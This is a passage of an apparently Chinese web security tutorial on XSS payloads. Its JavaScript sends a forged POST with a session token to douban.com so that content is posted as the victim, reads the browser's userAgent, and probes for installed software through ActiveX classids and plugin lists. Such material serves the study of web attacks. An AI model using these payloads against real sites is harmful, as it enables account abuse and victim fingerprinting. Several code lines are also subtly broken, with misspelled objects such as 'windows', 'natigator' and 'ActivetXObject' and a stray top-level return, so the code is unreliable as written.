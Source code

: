 ```javascript
f.submit();
// 如果表单的参数很多的话可以通过直接构造 DOM 节点的方式
```

第二种方法是，通过 `XMLHttpRequest` 发送一个 POST 请求：

```javascript
var url = "http://www.douban.com";
var postStr = "ck=JiUY&mb_text=testtesttest";

var ajax = null
if (windows.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
} else if (windows.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
} else {
    console.log("You broswer doesn't support XMLHttpRequest.");
    return;
}

ajax.open("POST", url, true);
ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function(){
    if(ajax.readyState == 4 && ajax.status == 200) alert("Done!");
}
```

### 识别用户浏览器

最直接的方式是通过 XSS 读取浏览器的 `UserAgent` 对象：

```javascript
alert(natigator.userAgent);
```

但是浏览器有许多扩展可以更改这个值，或者可以自定义浏览器发送的 `UserAgent`，所以通过 `JavaScript` 取出来的这个浏览器对象，信息不一定准确。

但对于攻击者来说，还有另一种技巧，可以准确地识别用户的浏览器版本。由于浏览器置键的实现存在差异，不同的浏览器会各自实现一些独特的功能，所以通过分辨写这些浏览器之间的差异，就能准确地判断出浏览器版本，而几乎不会误报。

### 识别用户安装的软件

在 IE 浏览器中，可以通过判断 ActiveX 控件的 classid 是否存在，来推测用户是否安装了软件：

```javascript
try {
    var Obj = new ActivetXObject("XunLeiBHO.ThunderIDHelper");
} catch (e) {
    alert("用户未安装迅雷");
}
```

浏览器的扩展和插件也能被扫描出来。比如 FireFox 的插件列表存放在一个 DOM 对象中，通过查询 DOM 可以遍历出所有的插件。这个 DOM 对象可以通过 `navigator.plugins`  访问，因此通过这个方式就可以找到所有的插件。
